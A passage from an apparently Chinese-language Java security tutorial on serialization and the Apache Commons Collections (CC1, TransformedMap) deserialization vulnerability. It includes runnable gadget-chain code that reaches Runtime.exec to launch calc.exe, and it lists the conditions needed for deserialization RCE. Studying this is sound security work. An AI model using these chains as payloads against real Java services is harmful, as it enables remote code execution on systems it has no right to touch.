                throw new NoClassDefFoundError(var3.getMessage());
            }
        }
    }
    ```

### 动态代理类实例序列化
[Dynamic Proxy Classes-Serialization](https://docs.oracle.com/javase/8/docs/technotes/guides/reflection/proxy.html#serial){target="_blank"}

## 1.10 Java类序列化

Java 序列化常被用于Socket传输。 在RMI(Java远程方法调用-Java Remote Method Invocation)和JMX(Java管理扩展-Java Management Extensions)服务中对象反序列化机制被强制性使用。在Http请求中也时常会被用到反序列化机制，如：直接接收序列化请求的后端服务、使用Base编码序列化字节字符串的方式传递等。

Java类实现`java.io.Serializable`(内部序列化)或`java.io.Externalizable`(外部序列化)接口即可被序列化。

=== "java.io.Serializable"

    `java.io.Serializable`是一个空接口，仅用于标记类可以被序列化。序列化机制会根据类的属性生成一个`serialVersionUID`，用于判断序列化对象是否一致。反序列化时如果`serialVersionUID`不一致会导致`InvalidClassException` 异常。如果未显式声明，则序列化运行时通过内置方法将计算默认 `serialVersionUID`值。

    ```java title="java.io.Serializable"
        public interface Serializable {
        }
    ```
    
    ??? note "code"

        ```java
        package cc.serial;

        import java.io.*;
        import java.util.Arrays;

        public class DeserializationTest implements Serializable {

            private String username;

            private String email;

            public DeserializationTest() {
                System.out.println("init...");
            }

            public String getUsername() {
                return username;
            }

            public void setUsername(String username) {
                this.username = username;
            }

            public String getEmail() {
                return email;
            }

            public void setEmail(String email) {
                this.email = email;
            }

            public static void main(String[] args) {
                ByteArrayOutputStream baos = new ByteArrayOutputStream();

                try {
                    // 创建DeserializationTest类，并类设置属性值
                    DeserializationTest t = new DeserializationTest();
                    t.setUsername("colemak");
                    t.setEmail("admin@javaweb.org");

                    // 创建Java对象序列化输出流对象
                    ObjectOutputStream out = new ObjectOutputStream(baos);

                    // 序列化DeserializationTest类
                    out.writeObject(t);
                    out.flush();
                    out.close();

                    // 打印DeserializationTest类序列化以后的字节数组，我们可以将其存储到文件中或者通过Socket发送到远程服务地址
                    System.out.println("DeserializationTest类序列化后的字节数组:" + Arrays.toString(baos.toByteArray()));

                    // 利用DeserializationTest类生成的二进制数组创建二进制输入流对象用于反序列化操作
                    ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());

                    // 通过反序列化输入流(bais),创建Java对象输入流(ObjectInputStream)对象
                    ObjectInputStream in = new ObjectInputStream(bais);

                    // 反序列化输入流数据为DeserializationTest对象
                    DeserializationTest test = (DeserializationTest) in.readObject();
                    System.out.println("用户名:" + test.getUsername() + ",邮箱:" + test.getEmail());

                    // 关闭ObjectInputStream输入流
                    in.close();
                } catch (IOException | ClassNotFoundException e) {
                    e.printStackTrace();
                }
            }

        }
        ```
        程序执行结果如下：
        {width=70%}

    `ObjectOutputStream`序列化类对象的主要流程是首先判断序列化的类是否重写了`writeObject`方法，如果重写了就调用对象自身的`writeObject`方法，序列化时会先写入类名信息，其次是写入成员变量信息(通过反射获取所有不包含被`transient`修饰的变量和值)。


=== "java.io.Externalizable"

    `java.io.Externalizable`接口定义了`writeExternal`和`readExternal`方法需要序列化和反序列化的类实现，其余的和`java.io.Serializable`并无差别。

    ```java title="java.io.Externalizable"
        public interface Externalizable extends java.io.Serializable {

        void writeExternal(ObjectOutput out) throws IOException;

        void readExternal(ObjectInput in) throws IOException, ClassNotFoundException;

        }
    ```

    ??? note "code"

        ```java
        package cc.serial;

        import java.io.*;
        import java.util.Arrays;

        public class ExternalizableTest implements java.io.Externalizable {

            private String username;
            private String email;

            public String getUsername() { return username; }
            public void setUsername(String username) { this.username = username; }
            public String getEmail() { return email; }
            public void setEmail(String email) { this.email = email; }

            @Override
            public void writeExternal(ObjectOutput out) throws IOException {
                out.writeObject(username);
                out.writeObject(email);
            }

            @Override
            public void readExternal(ObjectInput in) throws IOException, ClassNotFoundException {
                this.username = (String) in.readObject();
                this.email = (String) in.readObject();
            }

            public static void main(String[] args) {
                ByteArrayOutputStream baos = new ByteArrayOutputStream();

                try {
                    // 创建ExternalizableTest类，并类设置属性值
                    ExternalizableTest t = new ExternalizableTest();
                    t.setUsername("yz");
                    t.setEmail("admin@javaweb.org");

                    ObjectOutputStream out = new ObjectOutputStream(baos);
                    out.writeObject(t);
                    out.flush();
                    out.close();

                    // 打印ExternalizableTest类序列化以后的字节数组，我们可以将其存储到文件中或者通过Socket发送到远程服务地址
                    System.out.println("ExternalizableTest类序列化后的字节数组:" + Arrays.toString(baos.toByteArray()));
                    System.out.println("ExternalizableTest类反序列化后的字符串:" + new String(baos.toByteArray()));

                    // 利用DeserializationTest类生成的二进制数组创建二进制输入流对象用于反序列化操作
                    ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());

                    // 通过反序列化输入流创建Java对象输入流(ObjectInputStream)对象
                    ObjectInputStream in = new ObjectInputStream(bais);

                    // 反序列化输入流数据为ExternalizableTest对象
                    ExternalizableTest test = (ExternalizableTest) in.readObject();
                    System.out.println("用户名:" + test.getUsername() + ",邮箱:" + test.getEmail());

                    // 关闭ObjectInputStream输入流
                    in.close();
                } catch (IOException | ClassNotFoundException e) {
                    e.printStackTrace();
                }
            }

        }
        ```
        程序执行结果如下：
        {width=70%}
    
反序列化类对象时有如下限制：

- 被反序列化的类必须存在。
- `serialVersionUID`值必须一致。

!!! Warning "反序列化类对象不会调用该类构造方法"
    因为在反序列化创建类实例时使用了`sun.reflect.ReflectionFactory.newConstructorForSerialization`创建了一个反序列化专用的`Constructor`(反射构造方法对象)，其可以绕过构造方法创建类实例(前面章节讲`sun.misc.Unsafe`的时候我们提到了使用[`allocateInstance`](#AllocaInstance){target="_self"}方法也可以实现绕过构造方法创建类实例)。

**使用反序列化方式创建类实例**

??? note "code"

    ```java
    package cc.serial;

    import sun.reflect.ReflectionFactory;
    import java.lang.reflect.Constructor;

    public class ReflectionFactoryTest {
        public static void main(String[] args) {
            try{
                // 获取sun.reflect.ReflectionFactory对象
                ReflectionFactory factory = ReflectionFactory.getReflectionFactory();

                // 使用反序列化方式获取DeserializationTest类的构造方法
                Constructor constructor = factory.newConstructorForSerialization(
                        DeserializationTest.class, Object.class.getConstructor()
                );

                // 实例化DeserializationTest对象
                System.out.println(constructor.newInstance());
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
    ```

    程序运行结果如下，观察到未调用构造函数输出"init"：

    {width=70%}

参考[不用构造方法也能创建对象](https://www.iteye.com/topic/850027){target="_blank"}

### 自定义序列化(writeObject)和反序列化(readObject)方法

实现了`java.io.Serializable`接口的类，可以定义如下方法(反序列化魔术方法)，这些方法将会在类序列化或反序列化过程中调用：

1. **private void writeObject(ObjectOutputStream oos),自定义序列化**。
2. **private void readObject(ObjectInputStream ois)，自定义反序列化**。
3. private void readObjectNoData()。
4. protected Object writeReplace()，写入时替换对象。
5. protected Object readResolve()。

具体的方法名定义在`java.io.ObjectStreamClass#ObjectStreamClass(java.lang.Class<?>)`，其中方法有详细的声明。

### Apache Commons Collections反序列化漏洞

Apache Commons是Apache开源的Java通用类项目，在Java中项目中被广泛的使用，Apache Commons当中有一个组件叫做`Apache Commons Collections`，主要封装了Java的Collection（集合）相关类对象。本节将逐步详解Collections反序列化攻击链(仅以TransformedMap调用链为示例)最终实现反序列化RCE。(1)
{ .annote }

1. [Commons-Collections反序列化漏洞](https://www.cnblogs.com/BUTLER/p/16478574.html){target="_blank"}

#### Transformer

`Transformer`是`org.apache.commons.collections.Transformer`接口的实现类，`Transformer`接口定义了一个`transform`方法，用于对输入的对象进行转换。
```java title="org.apache.commons.collections.Transformer"
    /**
     * 将输入对象（保持不变）转换为某个输出对象。
     *
     * @param input  需要转换的对象，应保持不变
     * @return 一个已转换的对象
     * @throws ClassCastException (runtime) 如果输入是错误的类
     * @throws IllegalArgumentException (runtime) 如果输入无效
     * @throws FunctorException (runtime) 如果转换无法完成
     */
    public interface Transformer {
        Object transform(Object input);
    }
```

该接口的重要实现类有：`ConstantTransformer`、`invokerTransformer`、`ChainedTransformer`、`TransformedMap`

#### ConstantTransformer

ConstantTransformer，常量转换：传入对象不会经过任何改变直接返回。

```java title="org.apache.commons.collections.functors.ConstantTransformer"
package org.apache.commons.collections.functors;

import java.io.Serializable;
import org.apache.commons.collections.Transformer;

public class ConstantTransformer implements Transformer, Serializable {

    private static final long serialVersionUID = 6374440726369055124L;

    /** 每次都返回null */
    public static final Transformer NULL_INSTANCE = new ConstantTransformer(null);

    /** The closures to call in turn */
    private final Object iConstant;

    public static Transformer getInstance(Object constantToReturn) {
        if (constantToReturn == null) {
            return NULL_INSTANCE;
        }

        return new ConstantTransformer(constantToReturn);
    }

    public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return iConstant;
    }

    public Object getConstant() {
        return iConstant;
    }
}
```

#### InvokerTransformer

`org.apache.commons.collections.functors.InvokerTransformer`实现了`java.io.Serializable`接口。2015年有研究者发现利用`InvokerTransformer`类的`transform`方法可以实现Java反序列化RCE，并提供了利用方法：[ysoserial CC1](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java){target="_blank"}

`InvokerTransformer`类的`transform`方法通过反射调用指定对象的方法，返回方法执行结果。

```java title="org.apache.commons.collections.functors.InvokerTransformer"
public class InvokerTransformer implements Transformer, Serializable {

    private static final long serialVersionUID = -8653385846894047688L;

    /** 要调用的方法名称 */
    private final String iMethodName;

    /** 反射参数类型数组 */
    private final Class[] iParamTypes;

    /** 反射参数值数组 */
    private final Object[] iArgs;

    ···

    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }

    public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
              // 获取输入类的类对象
            Class cls = input.getClass();

              // 通过输入的方法名和方法参数，获取指定的反射方法对象
            Method method = cls.getMethod(iMethodName, iParamTypes);

              // 反射调用指定的方法并返回方法调用结果
            return method.invoke(input, iArgs);
        } catch (Exception ex) {
            // 省去异常处理部分代码
        }
    }
}
```

#### ChainedTransformer

`org.apache.commons.collections.functors.ChainedTransformer` 类封装了`Transformer`的链式调用，对于传入的`Transformer`数组，`ChainedTransformer`依次调用每一个`Transformer`的`transform`方法。

```java title="org.apache.commons.collections.functors.ChainedTransformer"
public class ChainedTransformer implements Transformer, Serializable {

  /** The transformers to call in turn */
  private final Transformer[] iTransformers;

  ...

  public ChainedTransformer(Transformer[] transformers) {
      super();
      iTransformers = transformers;
  }
  public Object transform(Object object) {
      for (int i = 0; i < iTransformers.length; i++) {
          object = iTransformers[i].transform(object);
      }
      return object;
  }
}
```

??? example "使用ChainedTransformer实现调用本地命令执行方法"

    ```java
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;

    public class ChainTransformer {

        public static void main(String[] args) throws Exception {
            // 定义需要执行的本地系统命令
            String cmd = "calc.exe";

            // ChainedTransformer调用链分解

    //        // new ConstantTransformer(Runtime.class
    //        Class<?> runtimeClass = Runtime.class;
    //
    //        // new InvokerTransformer("getMethod", new Class[]{
    //        //         String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
    //        // ),
    //        Class  cls1       = runtimeClass.getClass();
    //        Method getMethod  = cls1.getMethod("getMethod", new Class[]{String.class, Class[].class});
    //        Method getRuntime = (Method) getMethod.invoke(runtimeClass, new Object[]{"getRuntime", new Class[0]});
    //
    //        // new InvokerTransformer("invoke", new Class[]{
    //        //         Object.class, Object[].class}, new Object[]{null, new Object[0]}
    //        // )
    //        Class   cls2         = getRuntime.getClass();
    //        Method  invokeMethod = cls2.getMethod("invoke", new Class[]{Object.class, Object[].class});
    //        Runtime runtime      = (Runtime) invokeMethod.invoke(getRuntime, new Object[]{null, new Class[0]});
    //
    //        // new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
    //        Class  cls3       = runtime.getClass();
    //        Method execMethod = cls3.getMethod("exec", new Class[]{String.class});
    //        execMethod.invoke(runtime, cmd);

            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{
                            String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                    ),
                    new InvokerTransformer("invoke", new Class[]{
                            Object.class, Object[].class}, new Object[]{null, new Object[0]}
                    ),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
            };

            // 创建ChainedTransformer调用链对象
            Transformer transformedChain = new ChainedTransformer(transformers);

            // 执行对象转换操作
            Object transform = transformedChain.transform(null);

            System.out.println(transform);
        }

    }
    ```
    运行结果如下：
    

#### 利用InvokerTransformer执行本地命令

现在我们已经使用`InvokerTransformer`创建了一个含有恶意调用链的Transformer类的Map对象，紧接着我们应该思考如何才能够将调用链串起来并执行。

`org.apache.commons.collections.map.TransformedMap`类间接的实现了`java.util.Map`接口，同时支持对Map的key或者value进行Transformer转换，调用`decorate`和`decorateTransform`方法就可以创建一个`TransformedMap`:

```java title="org.apache.commons.collections.map.TransformedMap"
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
      return new TransformedMap(map, keyTransformer, valueTransformer);
}

public static Map decorateTransform(Map map, Transformer keyTransformer, Transformer valueTransformer) {
      ...
}
```

调用`TransformedMap`的`setValue`/`put`/`putAll`中的任意方法都会调用`transform`方法，从而也就会触发命令执行：

??? example "使用 TransformedMap类的setValue触发transform示例："

    ```java
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.TransformedMap;

    import java.util.HashMap;
    import java.util.Map;

    public class TransformedMapTest {

        public static void main(String[] args) {
            String cmd = "calc.exe";

            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{
                            String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                    ),
                    new InvokerTransformer("invoke", new Class[]{
                            Object.class, Object[].class}, new Object[]{null, new Object[0]}
                    ),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
            };

            // 创建ChainedTransformer调用链对象
            Transformer transformedChain = new ChainedTransformer(transformers);

            // 创建Map对象
            Map map = new HashMap();
            map.put("value", "value");

            // 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
            Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

            // transformedMap.put("v1", "v2");// 执行put也会触发transform

            // 遍历Map元素，并调用setValue方法
            for (Object obj : transformedMap.entrySet()) {
                Map.Entry entry = (Map.Entry) obj;

                // setValue最终调用到InvokerTransformer的transform方法,从而触发Runtime命令执行调用链
                entry.setValue("test");
            }

            System.out.println(transformedMap);
        }

    }
    ```
    运行结果如下：
    

任何一个类只要符合以下条件，我们就可以在Java反序列化的时候触发`InvokerTransformer`类的`transform`方法实现RCE：

1. 实现了`java.io.Serializable`接口
2. 并且可以传入我们构建的`TransformedMap`对象
3. 调用了`TransformedMap`中的`setValue`/`put`/`putAll`中的任意方法一个方法的类